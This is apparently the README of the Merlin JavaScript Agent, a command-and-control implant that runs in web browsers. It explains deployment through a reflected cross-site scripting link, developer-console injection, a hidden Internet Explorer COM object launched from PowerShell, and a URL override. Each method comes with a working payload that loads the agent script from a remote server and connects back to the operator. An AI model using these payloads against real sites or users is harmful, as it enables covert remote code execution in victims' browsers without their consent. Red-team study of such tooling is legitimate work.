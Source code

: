 # Merlin JavaScript Agent
This version of the Merlin Agent is written in JavaScript and can be run
in any location that can execute JavaScript. Web browsers can be found
on a multitude of devices to include computers, tablets, phones, TVs,
cars, and gaming systems. These are good candidates places to run a
Merlin agent.

An introductory blog post can be found here:
https://medium.com/@Ne0nd0g/merlin-javascript-all-up-in-your-browsers-e46d6449382


[![asciicast](https://asciinema.org/a/RHKqctghoo9fCkIVZjyMQV0N7.png)](https://asciinema.org/a/RHKqctghoo9fCkIVZjyMQV0N7)

## Usage
The Merlin JavaScript Agent functions the same as other agents. It is
controlled through the server using the same commands. It is important
to note that the Merlin JavaScript Agent is only capable of executing
JavaScript commands. For example, you could execute `2 + 2` and the
agent will return `4`. Alternatively, you can execute `alert('Merlin')`
and a JavaScript alert box will appear on the page where the Merlin
Agent is running.

## Limitations
* Browser must support HTTP/2
* JavaScript XHR calls will fail if using a self-signed/untrusted TLS
certificate
* Your commands are limited to the sandbox environment (unless there is
a vulnerability to escape it)
* Web browser must stay in the foreground on mobile devices to keep
running

## JavaScript Override Variable
The Merlin Server address is hardcoded into the `url` variable inside
of the JavaScript file. However, the Merlin JavaScript Agent will check
for existence of the `oURL` variable prior to executing the main
function. This variable is used to _override_ the hardcoded `url`
variable. This is useful when you want to deliver the JavaScript file
but don't want to change the `url` parameter prior to delivery. An
example of practical application is in the *Deployment Methods* section.

## Deployment Methods
* Merlin JavaScript Agent Test Page
* Cross-Site Scripting (XSS)
* Inject directly into the DOM
* Windows IE COM Object
* Override oURLJavaScript variable

### Merlin JavaScript Agent Test Page
Merlin ships with an HTML page that can be used to test the
_Merlin JavaScript Agent_. It can be found at `data/html/merlin.html`.
This page will automatically load the Merlin JavaScript agent, connect
to the Merlin Server, and start writing verbose messages to the screen.
The quickest way to try this out it is to use Python and start a simple
web server in the `html` directory (i.e.
`cd data/html;python -m SimpleHTTPServer`) and then browse to page with
`http://127.0.0.1:8000/merlin.html`.

### Cross-Site Scripting (XSS)
Let's assume that you've found a XSS vulnerability in a GET parameter
for Acme Widgets. For example the `page` parameter of
`https://www.acme.com/index.html?page=1` reflects back the value to the
user. You can exploit this XSS vulnerability to create a link that would
 deliver a Merlin Agent to a victim if they click the link. An example
 of the Merlin payload would be `var merlin=document.createElement('scri
 pt');merlin.src='http://127.0.0.1:8000/scripts/merlin.js';document.head.appendC
 hild(merlin);`.

 An example of the full payload is:

`https://www.acme.com/index.html?page=var%20merlin=document.createElement('script');merlin.src='http://127.0.0.1:8000/merlin.js';document.head.appendChild(merlin);`

### Inject into the DOM
Most web browser come with developer tools. These tools can be used to
execute JavaScript commands on _any page_ that you are viewing. On Firefox
 you can hit the `F12` key to open the developer Web Console. From
 there, you can execute this command:

`var merlin=document.createElement('script');merlin.src='http://127.0.0.1:8000/scripts/merlin.js';document.head.appendChild(merlin);`

### Windows IE COM Object
Using PowerShell, you can create and hide an Internet Explorer COM
object. This would create an Internet Explorer window, hide it so that
the user can't see it, and then browse to your malicious page. This
method also has the most obstacles. The newly created window will not
trust your self-signed certificates, so you must be using a valid TLS
certificate. _*For testing*_, you can circumvent this by making the
windows visible, browsing to the root of your web server, and creating
an exception in Internet Explorer. After creating the exception, then
you can navigate the web page to your malicious page and then hide the
window again. Additionally, Internet Explorer seems to error out if your
 malicious page is not served from the same place as your Merlin Server.
 This caused the hidden Internet Explorer window re-appear (made
visible) on its own.


You can use the built-in _Merlin JavaScript Agent Test Page_ to serve
the payload, but your probably better off creating a page somewhere
else with minimal HTML. If you decide to serve the _Merlin JavaScript
Agent Test Page_ to deliver the payload, you can shutdown the server
giving out the page (not the Merlin Server) right after it is grabbed
by the client. The malicious HTML page does not need to be available
after initial delivery. Merlin Server is not currently setup to serve
the _Merlin JavaScript Agent Test Page_ itself, yet. I will work on
getting it implemented.

An example PowerShell command is:

`$W=New-Object -com 'InternetExplorer.Application';$W.visible=$False;$W.navigate('http://www.acmewidgets.com:8000/merlin.html')`

### Override URL
You can host the JavaScript in its original form without having to hard
code your Merlin Server’s URL in the file. Merlin checks the DOM for the
`oURL` variable and will use its value to connect back with (if it
exists). This provides flexibility to dynamically change the Merlin
Server’s URL on the fly.

Note: If the place you are hosting the file returns the JavaScript file
with a content-type of `text/plain`, then the _Merlin JavaScript Agent_
will fail to load due to strict MIME type checking. The precludes you
from calling the file directly from GitHub. However, if no content-type
is provided, the agent should run.

An example command is: `var oURL='https://your.merlin.server:443/';var merlin=document.createElement('script');merlin.src='https://some.hosting.provider/merlin.js';document.head.appendChild(merlin);`